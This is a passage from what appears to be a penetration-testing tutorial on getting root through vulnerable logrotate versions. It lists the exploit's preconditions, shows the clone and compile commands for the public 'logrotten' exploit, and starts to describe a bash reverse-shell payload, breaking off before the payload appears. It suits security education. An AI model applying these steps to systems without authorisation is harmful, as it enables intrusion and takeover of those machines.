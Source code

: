     # use date as a suffix of the rotated file
    #dateext
    
    # uncomment this if you want your log files compressed
    #compress
    
    # packages drop log rotation information into this directory
    include /etc/logrotate.d
    
    # system-specific logs may also be configured here.

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

      ls /etc/logrotate.d/
    
      alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
    
      cat /etc/logrotate.d/dpkg
    
    /var/log/dpkg.log {
            monthly
            rotate 12
            compress
            delaycompress
            missingok
            notifempty
            create 644 root root
    }

To exploit `logrotate`, we need some requirements that we have to fulfill.

1.  we need `write` permissions on the log files
2.  logrotate must run as a privileged user or `root`
3.  vulnerable versions:
    -   3.8.6
    -   3.11.0
    -   3.15.0
    -   3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

    git clone https://github.com/whotwagner/logrotten.git
    cd logrotten
    gcc logrotten.c -o logrotten

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the IP and port of our VM that we use to attack the target system.
